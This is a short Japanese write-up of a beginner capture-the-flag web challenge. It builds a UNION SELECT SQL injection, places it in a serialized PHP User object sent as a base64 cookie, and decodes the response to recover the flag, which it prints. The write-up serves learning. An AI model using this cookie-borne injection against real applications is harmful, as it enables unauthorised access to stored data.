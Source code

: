 ## 解法

配布されたPHPファイルを見ると、`serialize()` 及び `unserialize()` が利用されているのがわかる。
また、古いfindUserByNameに脆弱性があるのがわかる。

従って下記のSQLを組み立てたい。

```sql
SELECT * FROM users WHERE id = '' UNION SELECT 'hoge', body, '$2y$10$M3nd1TCCZiboAl9YNpH2VufdHxNpJy5hqwP601is26bEEL1oM0Vc6' FROM flags -- 
```

```plaintext
' UNION SELECT 'hoge', body, '$2y$10$M3nd1TCCZiboAl9YNpH2VufdHxNpJy5hqwP601is26bEEL1oM0Vc6' FROM flags -- 
```

Cookieに埋め込む値

```plaintext
O:4:"User":3:{s:2:"id";s:1:"1";s:4:"name";s:106:"' UNION SELECT 'hoge', body, '$2y$10$M3nd1TCCZiboAl9YNpH2VufdHxNpJy5hqwP601is26bEEL1oM0Vc6' FROM flags -- ";s:13:"password_hash";s:60:"$2y$10$M3nd1TCCZiboAl9YNpH2VufdHxNpJy5hqwP601is26bEEL1oM0Vc6";}
```

をbase64 encodeした

```plaintext
Tzo0OiJVc2VyIjozOntzOjI6ImlkIjtzOjE6IjEiO3M6NDoibmFtZSI7czoxMDY6IicgVU5JT04gU0VMRUNUICdob2dlJywgYm9keSwgJyQyeSQxMCRNM25kMVRDQ1ppYm9BbDlZTnBIMlZ1ZmRIeE5wSnk1aHF3UDYwMWlzMjZiRUVMMW9NMFZjNicgRlJPTSBmbGFncyAtLSAiO3M6MTM6InBhc3N3b3JkX2hhc2giO3M6NjA6IiQyeSQxMCRNM25kMVRDQ1ppYm9BbDlZTnBIMlZ1ZmRIeE5wSnk1aHF3UDYwMWlzMjZiRUVMMW9NMFZjNiI7fQ==
```

Reloadすると下記のCookieに変わっている

```plaintext
Tzo0OiJVc2VyIjozOntzOjI6ImlkIjtzOjQ6ImhvZ2UiO3M6NDoibmFtZSI7czo0MzoiY3RmNGJ7U2VyMTRsaXo0dDEwbl8xNV92MXJ0dWFsbHlfcGw0MW50ZXh0fSI7czoxMzoicGFzc3dvcmRfaGFzaCI7czo2MDoiJDJ5JDEwJE0zbmQxVENDWmlib0FsOVlOcEgyVnVmZEh4TnBKeTVocXdQNjAxaXMyNmJFRUwxb00wVmM2Ijt9
```

URL Decode & Base64 decode 

```
O:4:"User":3:{s:2:"id";s:4:"hoge";s:4:"name";s:43:"ctf4b{Ser14liz4t10n_15_v1rtually_pl41ntext}";s:13:"password_hash";s:60:"$2y$10$M3nd1TCCZiboAl9YNpH2VufdHxNpJy5hqwP601is26bEEL1oM0Vc6";}
```

## ctf4b{Ser14liz4t10n_15_v1rtually_pl41ntext}
